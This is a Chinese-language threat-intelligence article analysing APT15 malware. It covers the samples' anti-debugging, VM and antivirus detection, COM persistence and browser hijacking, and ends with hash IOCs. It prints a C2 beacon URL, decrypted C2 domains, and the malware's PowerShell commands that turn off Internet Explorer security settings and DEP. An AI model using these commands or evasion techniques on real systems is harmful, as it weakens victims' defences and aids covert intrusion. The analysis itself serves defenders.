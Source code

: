 

# APT15 技术手段分析 - 先知社区

APT15 技术手段分析

- - -

[![](assets/1708870396-6c7334ecee8462da2f079f2a57062ab3.jpeg)](https://xzfile.aliyuncs.com/media/upload/picture/20240221092742-686969ba-d058-1.jpeg)

  APT15 组织具备完善的反侦查手段，如 PEB 结构/进程检测和 Int3 异常调试状态，也有虚拟机检测，反杀软等目标化工程，本篇技术分析主要对检测技术和劫持分析。

### 样本分析

#### 反调试

fs:0x30->PEB.NtGlobalFlag(0x68) 如果等于 0x70 意味着调试状态，如下所示：

[![](assets/1708870396-c9138f4ebc876c45595474ca31899b01.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240221092747-6b61719e-d058-1.png)

Int3 反调试，如下所示：

[![](assets/1708870396-2ddb806b6710be39ec948af71ead3027.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240221092749-6cf53a40-d058-1.png)

OD 进程检测

[![](assets/1708870396-b22b7f5ce07cc1a3235c1b69d5ec912c.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240221092753-6ef051ea-d058-1.png)

动态获取 WinHttpApi

[![](assets/1708870396-8fd066ddfe00b80556627e42dd368d4f.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240221092756-70d167c4-d058-1.png)

C2 请求报文特征，内存解密数据如下所示：

[![](assets/1708870396-616be15866f27cab06051b8565061363.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240221092758-72404d8c-d058-1.png)

[![](assets/1708870396-83cd51d76223ca5cff22c999841c9b17.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240221092801-73dac3a2-d058-1.png)

#### 虚拟机检测

[![](assets/1708870396-2a22b8dac57004ab259c0e7802ac1222.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240221092804-75d89a58-d058-1.png)

实际物理内存检测，如果小于 0x8000000000 内存中止程序。

[![](assets/1708870396-78e45d6de924933d400d5f98620c57c2.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240221092810-7919447e-d058-1.png)

创建互斥体，创建分发线程等待事件结束退出。

[![](assets/1708870396-942a7b896087edafb04a1bf7b0b020a6.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240221092853-92ea500a-d058-1.png)

#### 时间检测

[![](assets/1708870396-b031b1455fa599c3ad253bba303a2ae3.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240221092817-7d3f26fe-d058-1.png)

梳理如下

[![](assets/1708870396-c696609d527a8d088ecbc54e56d3c1cb.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240221092823-8131a0f2-d058-1.png)

#### 杀软检测

系统信息采集，包含主机/用户名/权限，拼接释放路径检测是否有 360tray.exe/wireshark.exe 运行，如下所示

[![](assets/1708870396-b353f2ab7e7574e16e182eabdb198567.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240221092908-9bae6bae-d058-1.png)

[![](assets/1708870396-667fb677bddcc1ed9813e721d37c49e0.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240221092911-9d6ec6c8-d058-1.png)

创建线程用于持久化操作，利用 Com 接口完成：

[![](assets/1708870396-1b4c68a13af75049811fc4524376ae90.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240221092913-9ee2b456-d058-1.png)

再次检测 360/Wirsharek 进程，确保无误后进入下一步操作

[![](assets/1708870396-7bb98130da651f608ae0a9a71a0f3c69.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240221092916-a092eece-d058-1.png)

#### 浏览器劫持

检测系统安装浏览器，如果是指定浏览器，退出

[![](assets/1708870396-0939a6659ddee64fe3152b900395699c.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240221092920-a3072080-d058-1.png)

设置不检查 Internet Explorer 是否为默认浏览器。

[![](assets/1708870396-5782b0b7c6bfc91841cc7e1371c129d8.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240221092923-a4772bea-d058-1.png)

  设置代理，利用 Com 接口请求代理服务器，通过 server\_ver，remark，search 等标识来识别来自于客户端请求，如下所示：

```plain
http://www.apecdns.asia/Users/login.asp?type=query&server_ver=V21&remark=OLEdrv&search=3991
```

[![](assets/1708870396-2dc95ef7133d52a5f7be0015caab1a93.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240221092926-a68387e4-d058-1.png)

[![](assets/1708870396-613f5f6f7fed1eefce8210c2bf5850e6.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240221092928-a7e0e9a6-d058-1.png)

对无效站点证书关闭警告，如下图所示：

[![](assets/1708870396-88f29f8b8dd72e5cde00a20fde70a67e.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240221092931-a9a3e568-d058-1.png)

数据通信编码 base64，部分已经更换成 AES

[![](assets/1708870396-f58faad47de2d949edaa1ceaef27e811.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240221092933-aae99260-d058-1.png)

  利用 Com 接口执行 Http 请求，将指令封装至报文中，如&Cmd，=101/102 用来获取对应的功能指令，部分功能如下：

下载文件执行

[![](assets/1708870396-fdbe1e121b3d90ea8b5b3cb4dbfe203a.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240221092936-acb5a840-d058-1.png)

释放 vbs 执行

[![](assets/1708870396-7cdee596b63db3737d2b2b53a21ffba7.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240221092940-aee9259c-d058-1.png)

[![](assets/1708870396-6e1bce75a3bcb2b5716dcb0a10852559.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240221092942-b0606750-d058-1.png)

数据保存

[![](assets/1708870396-4f91057ebba0e7c0ae3eaebf64201c8e.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240221092946-b29c10e6-d058-1.png)

另一种网络劫持手段，内存解密域名如下：

```plain
press|press.premlist.com|upgrade.aspx|index.aspx|newinfo.aspx|draft.aspx|contexts.aspx|views.aspx|chart.aspx|channels.aspx|global.aspx
```

[![](assets/1708870396-b9556de63ce39790ff156d886c9b50ba.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240221092950-b4ca8e4c-d058-1.png)

请求键值 Domain/Host，查询和设置代理

[![](assets/1708870396-3e7c263d44b8ccd915f9df4468ed87d1.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240221092953-b65873c8-d058-1.png)

内存解密 Powershell，执行如下：

[![](assets/1708870396-c2a4acb02fb86e42a164b41abf1fbe0e.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240221092956-b8267c2c-d058-1.png)

```plain
powershell -command 
"&{New-ItemProperty 'HKCU:\Software\Microsoft\Windows\CurrentVersion\Internet Settings' -Property DWORD -name WarnonZoneCrossing -value 0 -Force}"
```

```plain
powershell -command 
"&{New-ItemProperty' HKCU:\Software\Microsoft\Windows\CurrentVersion\Internet Settings\ZoneMap' -Property DWORD -name IEHarden -value 0 -Force}"..
```

```plain
powershell -command 
"&{New-ItemProperty 'HKCU:\Software\Microsoft\Internet Explorer\PhishingFilter' -Property DWORD -name Enabled -value 1 -Force}"
```

```plain
powershell -command 
"&{New-ItemProperty 'HKCU:\Software\Microsoft\Internet Explorer\PhishingFilter' -Property DWORD -name ShownVerifyBalloon -value 3 -Force}"
```

```plain
powershell -command 
"&{New-ItemProperty 'HKCU:\Software\Microsoft\Internet Explorer\Main' -Property String -name Check_Associations -value 'no' -Force}"
```

```plain
powershell -command 
"&{New-ItemProperty 'HKCU:\Software\Microsoft\Internet Explorer\Main' -Property DWORD -name DEPOff -value 1-Force}"
```

```plain
powershell -command 
"&{New-ItemProperty 'HKCU:\Software\Microsoft\Internet Explorer\Recovery' -Property DWORD -name AutoRecover-value 2 -Force}"
```

```plain
powershell -command 
"&{New-ItemProperty 'HKCU:\Software\Microsoft\Windows\CurrentVersion\Internet Settings\Zones\3' -Property DWORD -name 2500 -value 3 -Force}"
```

### IOCs

```plain
03a2f5ea0cea83e77770a4018c4469ab
7d584187e33f58f57d08becf3cc75b72
9ad5ad17c08632493dfbacb3be84dc21
c79b60e5e923f5fde2a02991238ae688
ff49b26664070b080d30d824bd2f3064
```
